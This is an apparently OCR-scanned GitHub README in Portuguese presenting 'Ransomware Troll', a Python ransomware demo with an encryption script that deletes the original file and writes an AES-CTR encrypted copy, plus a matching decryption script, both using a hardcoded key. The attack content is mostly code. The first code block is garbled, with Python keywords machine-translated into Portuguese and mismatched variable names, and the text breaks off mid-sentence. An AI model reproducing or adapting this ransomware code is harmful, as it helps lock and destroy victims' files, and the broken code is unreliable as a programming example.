 # Ransomware
Ransomware na Prática com Python

# Pré-requisitos
Antes de executar os códigos de descrição e criptografia, é necessário ter o Python instalado em seu sistema. Além disso, você deve ter uma biblioteca pyaesinstalada. Você pode conectá-lo usando o comandopip install pyaes .

# Código de Descripción
Aqui está o código base que pode ser usado para descrever arquivos criptografados pelo Ransomware Troll:

```pitão
importar sistema operacional
importar pyaes

#Nome do arquivo criptografado
file_name =  " arquivo.txt.ransomwaretroll "

# Abre o arquivo criptografado em modo de leitura binária
arquivo  =  aberto (nome_do_arquivo, " rb " )
file_data =  arquivo .read()
arquivo .close()

# Chave para descripção
chave =  b " testeransomwares "
aes = pyaes.AESModeOfOperationCTR(chave)

# Realizar a descritografia
decrypt_data = aes.decrypt(dados_do_arquivo)

# Removendo o arquivo criptografado
os.remove(nome_do_arquivo)

# Crie o arquivo descrito
new_file =  " arquivo.txt "
novo_arquivo =  aberto ( f ' { novo_arquivo } ' , " wb " )
novo_arquivo.escrever(descriptografar_dados)
novo_arquivo.fechar()
```


-Se de substituir "arquivo.txt.ransomwaretroll"pelo nome do arquivo criptografado real que você deseja descrever e"testeransomwares" pela chave correta de descritiva fornecida pelo atacante.

# Código de Criptografia
Aqui está o código base que pode ser usado para criptografar arquivos usando o Ransomware Troll:

import os

import pyaes

*Nome do arquivo a ser criptografado*

file_name = "arquivo.txt"

*Abrir o arquivo em modo de leitura binária*

file = open(file_name, "rb")

file_data = file.read()

file.close()

*Remover o arquivo original*

os.remove(file_name)

*Chave para criptografia*

key = b"testeransomwares"

aes = pyaes.AESModeOfOperationCTR(key)

*Realizar a criptografia*

crypto_data = aes.encrypt(file_data)

*Nome do novo arquivo criptografado*

new_file = file_name + ".ransomwaretroll"

new_file = open(f'{new_file}', 'wb')

new_file.write(crypto_data)

new_file.close()

-Se de substituir "arquivo.txt"pelo nome do arquivo que você deseja criptografar e"testeransomwares" pela chave correta de criptografia. O código criptografado será o arquivo selecionado e salvará uma versão criptografada com a extensão `.ransom
